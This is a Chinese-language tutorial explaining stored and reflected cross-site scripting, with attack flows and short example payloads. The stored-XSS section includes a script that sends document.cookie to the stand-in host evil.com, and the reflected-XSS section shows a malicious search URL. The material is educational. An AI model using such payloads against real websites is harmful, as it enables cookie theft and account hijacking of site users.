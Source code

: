 XSS 漏洞通常发生在 Web 应用程序没有对用户输入进行有效的验证和过滤时，攻击者可以通过网页的输入框、URL 参数或其他用户交互的方式将恶意脚本注入到页面中。

XSS 分为 **存储型 XSS（Stored XSS）** 和 **反射型 XSS（Reflected XSS）** 两种常见类型，它们的区别在于攻击脚本的存储和传播方式不同。

---

### **1. 存储型 XSS（Stored XSS）**

#### **定义**：
存储型 XSS 是指恶意脚本被存储在服务器端（如数据库、日志文件等）并随着网页内容的加载返回给用户。当用户访问该网页时，存储在服务器上的恶意脚本会在浏览器中执行。

#### **攻击流程**：
1. 攻击者将恶意的 JavaScript 代码提交到 Web 应用的输入表单中（如评论、留言板等）。
2. 服务器没有进行有效的输入验证和过滤，直接将这段恶意代码存储在数据库或日志中。
3. 当其他用户访问包含该恶意代码的页面时，浏览器自动执行这段恶意脚本。

#### **例子**：
假设某个论坛网站的评论系统存在存储型 XSS 漏洞，攻击者可以在评论框中输入以下代码：
```html
<script>alert('你的账户已被黑客入侵！');</script>
```
这段代码会被存储在服务器的数据库中。当其他用户查看这个帖子时，浏览器会自动执行这段脚本，弹出提示框。虽然这只是一个简单的例子，攻击者也可以通过类似的方式窃取用户的 cookie 或重定向到钓鱼网站。

#### **漏洞示例代码**：
- 攻击者提交的评论：
```html
<script>
  fetch('http://evil.com/steal?cookie=' + document.cookie);
</script>
```
- 服务器存储并返回的评论内容（未过滤）：
```html
<div>
  <p>User: John</p>
  <p>Comment: <script>fetch('http://evil.com/steal?cookie=' + document.cookie);</script></p>
</div>
```
- 其他用户查看评论时，浏览器会执行该脚本，将目标用户的 cookies 发送到攻击者指定的恶意服务器。

---

### **2. 反射型 XSS（Reflected XSS）**

#### **定义**：
反射型 XSS 是指恶意脚本通过用户的请求被即时反射到网页中，攻击脚本并未存储在服务器上。通常这种攻击方式通过在 URL、查询参数或表单中嵌入恶意代码，受害者点击恶意链接后，浏览器执行其中的恶意脚本。

#### **攻击流程**：
1. 攻击者构造一个包含恶意脚本的 URL（例如，利用 URL 参数传递恶意代码）。
2. 当受害者点击该 URL 或访问包含恶意参数的网页时，Web 应用会将恶意代码反射到页面中，并在浏览器中执行。

#### **例子**：
假设一个网站存在反射型 XSS 漏洞，攻击者可以构造如下链接：
```text
http://example.com/search?q=<script>alert('XSS Attack!');</script>
```
当受害者点击该链接时，网页会返回带有 `q` 参数的内容，并在页面中显示这个参数内容。如果没有对输入进行有效的过滤，浏览器会将其中的 `<script>` 标签当作 JavaScript 代码执行，弹出提示框。
